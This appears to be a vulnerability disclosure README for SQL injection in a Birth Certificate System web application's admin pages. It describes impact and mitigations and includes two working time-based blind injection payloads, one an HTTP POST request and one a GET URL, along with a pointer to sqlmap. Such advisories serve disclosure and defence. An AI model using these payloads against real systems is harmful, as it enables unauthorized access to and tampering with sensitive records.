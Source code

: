 # SQL-injection-on-Birth-Certificate-System

## SQL Injection Vulnerability Description

### 1. **Vulnerability in `searchdata` POST Variable**  
**Location**: Admin search page (`/admin/search.php`)  
**Description**:  
The `searchdata` POST variable is susceptible to SQL Injection. If user input is not properly sanitized or validated, an attacker can craft malicious SQL queries that manipulate the database. This could lead to unauthorized access, data retrieval, or even data manipulation.

### 2. **Vulnerability in `userid` GET Parameter**  
**Location**: Admin user applications page (`/admin/users-applications.php`)  
**Description**:  
The `userid` GET parameter allows potential SQL Injection attacks. If the parameter is directly incorporated into SQL queries without adequate sanitization or prepared statements, an attacker can exploit this vulnerability to access or modify sensitive information in the database.

### **Impact**  
Both vulnerabilities, if exploited, can result in:  
- Unauthorized access to sensitive information.  
- Modification or deletion of database records.  
- Escalation of privileges within the application.  
- Full compromise of the underlying database system.

## Exploitation Steps for SQL Injection Vulnerabilities

### 1. Exploiting `searchdata` POST Variable on `/admin/search.php`

#### **Objective**: Extract data or manipulate the database using the vulnerable `searchdata` POST parameter.

#### **Steps**:
1. **Exploit**:
     ```
     POST /admin/search.php HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded

     searchdata=hello' AND (SELECT 7003 FROM (SELECT(SLEEP(5)))IBDi) AND 'iSaW'='iSaW&search=
     ```
---

### 2. Exploiting `userid` GET Parameter on `/admin/users-applications.php`

#### **Objective**: Use the vulnerable `userid` parameter to extract sensitive data or manipulate the database.

#### **Steps**:

1. **Exploit**:
     ```
     http://example.com/admin/users-applications.php?userid=7' AND (SELECT 8511 FROM (SELECT(SLEEP(5)))RdYY) AND 'CBto'='CBto&&fname=1
     ```

---

### **Key Notes**:
- Use tools like `sqlmap` for automated exploitation.
- Be cautious of blind SQL Injection scenarios; use payloads for time-based or error-based testing if no direct feedback is provided.
- Always confirm exploitation techniques in a legal and authorized testing environment.

### **Mitigation Steps**  
1. Use parameterized queries or prepared statements to handle database interactions.  
2. Sanitize and validate all user inputs, ensuring special characters are escaped or rejected.  
3. Implement proper access controls on sensitive pages like admin interfaces.  
4. Regularly test the application for SQL Injection vulnerabilities using automated tools or manual security audits.

### **Severity**  
High – SQL Injection vulnerabilities are critical security flaws that can lead to severe consequences if exploited.
